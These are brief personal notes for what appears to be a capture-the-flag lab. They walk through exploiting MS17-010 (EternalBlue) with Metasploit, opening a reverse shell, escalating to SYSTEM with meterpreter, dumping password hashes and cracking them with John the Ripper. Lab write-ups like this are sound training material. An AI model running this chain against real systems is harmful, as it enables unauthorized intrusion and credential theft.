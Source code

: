 # set up
- mkdir blue
- subl blue notes
  - export IP={vic ip}

# Recon
- nmap -sC -sV -oN ~/blue/initial_nmap $IP -vv
- exploit - SMBv2 - [Shodowbrokers](https://freesoft.dev/program/88928207)
  - ms17-010

# Access
- msfconsole
  - search ms17-010
  - exploit/windows/smb/ms17_010_eternalblue
  - set RHOSTS
  - set payload windows/x64/shell/reverse_tcp

  - Bckground shell (ctrl + Z)

# Escalate
- run post/multi/manage/shell_to_meterpreter
- use multi/manage/shell_to_meterpreter
- set session {session id}
- sessions {session_#}

- getsystem - verify escalation
- ps - identify running processes
- migrate to a NT Authority\system
- migrate PROCESS_ID

# Crack
- hashdump
  - copy hashes to Blue_notes
  - create jon_hash...etc
  - john the ripper - crack the hashes

# Flags in key locations
- 1st flag - C:/
- 2nd flag - Windows
- 3rd flag - jon/documents

- I used the meterpreter to move between folders, but used power shell to locate the flags
- dir *flag*.* /s


